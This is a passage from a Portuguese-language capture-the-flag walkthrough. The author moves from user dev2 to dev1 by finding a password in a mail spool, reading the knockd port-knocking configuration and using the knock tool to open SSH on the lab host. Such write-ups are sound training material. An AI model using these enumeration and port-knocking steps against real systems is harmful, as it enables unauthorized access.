 ```
www-data@incognito:/home$ su dev2
su dev2
dev2@incognito:/home$ 
```
A flag `user.txt` se encontra no diretório do usuário dev2.

Após um tempo de enumeração local, encontrei um e-mail direcionado para o usuário `dev1` em `/var/mail`.

```
dev2@incognito:/var/mail$ cat dev1
cat dev1
Hey, your password has been changed, dc647eb65e6711e155375218212b3964.
Knock yourself in!
```
Esta mensagem diz que a senha do usuário dev1 foi alterada para a senha informada, porém a porta 22 está bloqueada por algum serviço. Também finaliza com a frase `Knock yourself in!`, o que pode dizer que a porta 22 pode estar protegida por um serviço de `Port Knocking`.

Ao enumerar o diretório `/etc`, encontrei o arquivo `knockd.conf`, ao ler o conteúdo, encontrei a configuração do Port Knocking.

```
dev2@incognito:/etc$ cat knockd.conf
cat knockd.conf
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
        tcpflags    = syn
```
Ele nos diz que para abrir a porta 22, precisamos mandar uma requisição sequencial para as portas `5020, 6120 e 7340`, podemos usar o programa `knock` para abrirmos a porta 22 e tentar logar com o usuário `dev1`.

```
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ knock 10.10.102.61 5020 6120 7340 -d 500
```

E logo em seguida tentei a conexão `ssh` e consegui o shell.
